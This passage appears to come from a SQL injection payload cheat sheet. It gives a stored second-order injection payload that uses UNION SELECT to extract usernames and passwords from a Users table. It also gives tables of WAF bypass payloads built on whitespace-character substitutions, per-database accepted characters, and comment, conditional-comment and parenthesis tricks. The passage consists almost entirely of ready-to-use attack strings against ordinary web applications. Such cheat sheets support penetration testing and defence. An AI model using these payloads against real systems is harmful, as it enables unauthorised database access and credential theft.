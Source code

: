 ## Second Order SQL Injection

Second Order SQL Injection is a subtype of SQL injection where the malicious SQL payload is primarily stored in the application's database and later executed by a different functionality of the same application.

```py
username="anything' UNION SELECT Username, Password FROM Users;--"
password="P@ssw0rd"
```

Since you are inserting your payload in the database for a later use, any other type of injections can be used UNION, ERROR, BLIND, STACKED, etc.

## Generic WAF Bypass

### White Spaces

Bypass using whitespace alternatives.

| Bypass                   | Technique              |
| ------------------------ | ---------------------- |
| `?id=1%09and%091=1%09--` | Whitespace alternative |
| `?id=1%0Aand%0A1=1%0A--` | Whitespace alternative |
| `?id=1%0Band%0B1=1%0B--` | Whitespace alternative |
| `?id=1%0Cand%0C1=1%0C--` | Whitespace alternative |
| `?id=1%0Dand%0D1=1%0D--` | Whitespace alternative |
| `?id=1%A0and%A01=1%A0--` | Whitespace alternative |
| `?id=1%A0and%A01=1%A0--` | Whitespace alternative |

| DBMS       | ASCII characters in hexadecimal |
| ---------- | ------------------------------- |
| SQLite3    | 0A, 0D, 0C, 09, 20 |
| MySQL 5    | 09, 0A, 0B, 0C, 0D, A0, 20 |
| MySQL 3    | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20 |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20 |
| MSSQL      | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20 |

Bypass using comments and parenthesis.

| Bypass                                    | Technique            |
| ----------------------------------------- | -------------------- |
| `?id=1/*comment*/AND/**/1=1/**/--`        | Comment              |
| `?id=1/*!12345UNION*//*!12345SELECT*/1--` | Conditional comment  |
| `?id=(1)and(1)=(1)--`                     | Parenthesis          |
